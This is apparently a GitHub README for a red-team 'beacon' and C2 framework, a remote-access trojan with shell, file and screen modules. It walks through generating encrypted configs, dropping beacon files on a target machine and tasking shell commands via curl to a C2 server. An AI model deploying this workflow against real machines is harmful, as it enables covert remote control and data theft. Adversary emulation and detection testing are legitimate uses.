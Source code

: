 # simulated-adversary-control-agent-deployment

### Overview
Deploy a controlled, encrypted software agent designed to simulate real-world attacker behavior without risk or persistence. Leverage the **Red Team Beacon Framework**, a modular encrypted beacon + C2 simulation stack for red team operations and adversary emulation. Built for secure testing of endpoint defenses, dynamic payload staging, and encrypted tasking.

- Validate defensive controls
- Identify detection gaps
- Simulate encrypted malware tasking

### Features
-  AES-256 encrypted configuration
-  HTTPS beacon polling
-  Modular agent actions (shell, file, screen)
-  No hardcoded infrastructure — all dynamic
-  Custom tasks delivered via secure backend
-  Flask-based tasking server
-  UID-based target tracking
-  GUI-based key & config builder (rat_config_studio.py)


### Perfect For
- CISOs preparing tabletop exercises  
- Security teams validating EDR/NDR alerting  
- Managed security firms offering offensive services  
- Internal red/purple teams staging custom payloads
  
### Deployment Stack:
```
├── rat_config_studio.py
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
├── c2_server.py
```
### How to use

**generate config & key on host machine**
```
python_rat_config_studio.py
generates rat.key, rat_config.json.enc
 Click “Generate AES-256 Key”
 Save the key securely
 Input your C2 URL, interval, and enabled modules
 Click “Encrypt Config”
 Deliver `.enc` file with corresponding `.key` to the beacon loader
 Use “Decrypt & View” to inspect any `.enc` file with the matching key
```
**run the c2 server**
```
python c2_server.py
```
**Server listens on:**
```
GET /checkin/<uid> – Polling beacon
POST /task/<uid> – Set task
POST /submit/<uid> – Receive result
```
**drop the following files onto target machine**
```
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
```
**On Target Machine Run**
```
python beacon.py
```
**open cmd prompt and send a task**
```
curl -k -X POST https://<hosting_c2_server>:8080/task/<UID> ^
  -H "Content-Type: application/json" ^
  -d '{"module": "shell", "args": "whoami"}'
or use a one-liner with a task.json file you create
curl -k -X POST http://<hosting_c2_server>:8080/task/<UID> -H "Content-Type: application/json" -d @task.json
``` 
**NOTE:**  this toolset is interchangeable meaning the c2_url, interval and enabled modlues can modified.  What you see here is a simple payload simulation and you can change the module to be a payload you wish to test.  You must make the changes in the included files yourself!
## Disclaimer
**This tool is provided for ethical red team operations, threat simulations, and research. Do not use against systems you do not own or manage.**
